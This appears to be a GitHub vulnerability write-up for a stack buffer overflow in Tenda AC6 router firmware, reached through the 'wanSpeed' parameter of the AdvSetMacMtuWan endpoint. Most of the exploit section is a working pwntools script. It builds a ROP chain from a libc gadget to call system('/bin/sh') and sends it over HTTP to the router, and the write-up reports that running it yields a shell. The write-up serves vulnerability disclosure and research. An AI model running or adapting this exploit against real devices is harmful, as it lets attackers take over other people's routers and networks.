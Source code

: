 # fromAdvSetMacMtuWan-vulnerability

## Intro

Tenda AC6 V1.0BR_V15.03.05.19_multi_TD01 firmware has a buffer overflow vulnerability in the sub_72E7C function. **strcpy(a3 + 0x18, v4);** function copies the contents of the parameter **"wanSpeed"(or wanSpeed)** to a3 without performing a length check. Therefore we can send a very long string to overwrite the return address to execute certain code we want.

![img](./assets/13.png)

![img](./assets/14.png)

## Exp

By analysing the libc in firmware and adding breakpoint in memset function, we can get the base address of libc：0x3fdd8f70-0x3df70=0x3fd9b000

![](./assets/2.png)

![](./assets/3.png)

Then let's set the rop chain. It's so lucky that there's a perfect gadget "pop {r0, pc}" that can pass parameter and set pc at the same time. So we can use this gadget to execute "system("/bin/sh")" easily. The offset of this gadget in libc is 0x0003db80（take US_AC6V1.0BR_V15.03.05.19_multi_TD01 as example）.

Noticing that sub_72E7C is called by fromAdvSetMacMtuWan, we should pay attention that when overwriting the return address of fromAdvSetMacMtuWan, we also rewrite some local variables in fromAdvSetMacMtuWan. To make it run normally before returning, we should set the value of [sp+17Ch] and [sp+180h] as 0xffffffff（minus one）.

![](./assets/10.png)

```python
from pwn import *
import requests

libc = ELF('./lib/libc.so.0')

libc_start = 0x3fd9b000
system_addr = libc_start + libc.symbols['system']
binsh_addr = libc_start + next(libc.search(b'/bin/sh'))

# 0x0003db80 : pop {r0, pc}

pop_r0_pc = libc_start + 0x0003db80

print(f"system: {hex(system_addr)}")
print(f"/bin/sh: {hex(binsh_addr)}")
print(f"pop {hex(pop_r0_pc)}")

def send_payload(url, payload):
    print("sending...")
    response = requests.get(url, params={'wanSpeed': payload})
    print(f"Response status code: {response.status_code}\nResponse body: {response.text}")

payload = 0xfc * b'A' + b'\xff\xff\xff\xff' + b'\xff\xff\xff\xff' + 0x10 * b'A' + p32(pop_r0_pc) + p32(binsh_addr) + p32(system_addr)
send_payload("http://10.10.10.1/goform/AdvSetMacMtuWan", payload)

```

## Reproduction

If you are using qemu to run the binary file, to make it run correctly, there's several places to patch.

The instructions patched to **'b'(the jump instruction)** can be listed as follows:  

![](./assets/4.png)

![](./assets/5.png)

Then after running the exp twice we can get shell successfully.

![](./assets/12.png)